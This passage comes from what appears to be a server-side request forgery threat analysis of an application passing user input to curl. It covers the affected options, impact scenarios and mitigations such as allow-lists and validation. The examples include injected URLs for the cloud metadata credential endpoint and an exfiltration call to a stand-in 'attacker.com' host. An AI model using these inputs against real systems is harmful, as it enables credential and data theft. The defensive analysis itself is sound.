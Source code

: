 **3. Affected `curl` Component: URL Parsing and Request Construction in Detail:**

The core vulnerability lies in how the application uses `curl`'s API to set the target URL. Specifically, the following aspects are crucial:

* **`CURLOPT_URL` Option:** This is the primary option used to specify the target URL for the `curl` request. If the value passed to this option is derived from unsanitized input, it becomes the entry point for the attack.
* **URL Parsing Logic:** `curl` has its own internal URL parsing logic. While robust, it can't inherently distinguish between legitimate and malicious URLs constructed from unsanitized input. It will process whatever URL is provided.
* **Option Injection (Less Direct):** While the threat description focuses on URL manipulation, it's worth noting that in some scenarios, attackers might try to inject additional `curl` options if the application dynamically builds the `curl` command-line or uses libraries with vulnerabilities in their `curl` wrapper. This is less direct for URL manipulation but a related concern.
* **Protocol Handling:**  `curl` supports various protocols (HTTP, HTTPS, FTP, etc.). Attackers might try to switch protocols to access resources in unexpected ways (e.g., using `file://` if allowed).

**4. Impact Scenarios and Examples:**

* **Accessing Internal Administration Panels:** An attacker might manipulate a URL to target an internal administration panel accessible only on the private network, potentially gaining control over the application or underlying infrastructure.
    * **Example:** An application allows users to specify a website to preview. A malicious user injects `http://internal-admin.company.local/login`. The server unknowingly makes a request to this internal page.
* **Reading Cloud Metadata:** In cloud environments, attackers can target metadata endpoints (e.g., `http://169.254.169.254/latest/meta-data/iam/security-credentials/`) to retrieve temporary security credentials associated with the instance, leading to privilege escalation.
    * **Example:** An application uses user input to construct a URL for fetching external images. An attacker injects `http://169.254.169.254/latest/meta-data/iam/security-credentials/my-instance-role`.
* **Interacting with Internal APIs:** Attackers can manipulate URLs to interact with internal APIs that are not meant to be exposed externally, potentially accessing sensitive data or triggering unintended actions.
    * **Example:** An application uses user input to specify a product ID for fetching details. An attacker injects `http://internal-api.company.local/users/admin`.
* **Exfiltrating Data:** An attacker might manipulate the URL to send internal data to an external server they control.
    * **Example:** An application allows users to specify a callback URL. A malicious user injects `http://attacker.com/log?data=<sensitive_internal_data>`. The server sends a request containing internal data to the attacker's server.

**5. Detailed Mitigation Strategies and Implementation:**

Building upon the initial mitigation strategies, here's a more detailed breakdown with implementation considerations:

* **Thorough Input Validation and Sanitization:**
    * **Identify all input sources:**  Map all points where user input contributes to the `curl` URL.
    * **Use strict validation rules:** Define allowed characters, patterns, and formats for each input component.
    * **Sanitize potentially harmful characters:** Encode or remove characters that could be used for URL manipulation (e.g., `://`, `@`, `#`, `?`, `/`, `\`).
    * **Regular expressions:** Employ regular expressions to enforce valid URL structures or specific components.
    * **Context-aware sanitization:** Sanitize based on how the input will be used in the URL.
* **Allow-Lists of Permitted Domains/URL Patterns:**
    * **Define a strict set of allowed destinations:**  Instead of trying to block malicious URLs (which is difficult), explicitly define the legitimate targets.
    * **Implement checks before constructing the `curl` request:** Verify that the target domain or URL pattern matches an entry in the allow-list.
    * **Regularly review and update the allow-list:** Ensure it reflects the current legitimate destinations.
* **Controlled Base URL and Parameterization:**
    * **Establish a fixed base URL:**  Use a predefined base URL that cannot be modified by user input.